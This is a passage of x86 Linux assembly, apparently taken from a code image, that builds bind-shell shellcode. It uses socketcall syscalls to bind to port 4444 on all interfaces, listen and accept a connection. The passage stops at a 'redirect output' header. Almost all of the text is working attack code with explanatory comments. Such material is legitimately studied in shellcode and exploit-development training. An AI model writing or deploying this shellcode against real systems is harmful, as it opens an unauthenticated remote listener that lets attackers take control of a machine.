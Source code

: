 ```asm
        ; syscall - socketcall
        mov al, 0x66
        
        ; callid - bind (increase ebx from 1 to 2)
        inc ebx
        
        ; create struct {AF_INET, 444, INADDR_ANY}
        push edx            ; INADDR_ANY = 0x0
        push 0x5C11         ; Port 4444 htons(4444)
        push bx             ; AF_INET = 0x2
        mov ecx, esp        ; store pointer to struct
        
        ; create args for bind {sockfd, struct, sizeof(struct)}
        push 0x10           ; struct size = 0x10
        push ecx            ; pointer to struct
        push edi            ; sockfd stored from socket call
        
        mov ecx, esp
        int 0x80            ; bind(sockfd, sock_addr, sizeof(sock_addr))
        
        
        ;**********************;
        ; set socket to listen ;
        ;**********************;
        
        
        ; registers are prepared for args, so lets push before changing anything
        push eax            ; 0x0
        push edi            ; sockfd
        
        mov ecx, esp
        
        ; syscall - socketcall
        mov al, 0x66
        
        ; callid - listen (0x4)
        inc ebx
        inc ebx
        int 0x80            ; listen(sockfd, 0)
        
        
        ;*******************;
        ; accept connection ;
        ;*******************;
        
        
        ; eax is 0 from the return value of listen
        push eax            ; NULL
        push eax            ; NULL
        push edi            ; sockfd
        mov ecx, esp
        
        ; syscall - socketcall
        mov al, 0x66
        
        ; callid - accept
        inc ebx
        int 0x80            ; accept(sockfd, NULL, NULL);
        
        
        ;*****************;
        ; redirect output ;
        ;*****************;
```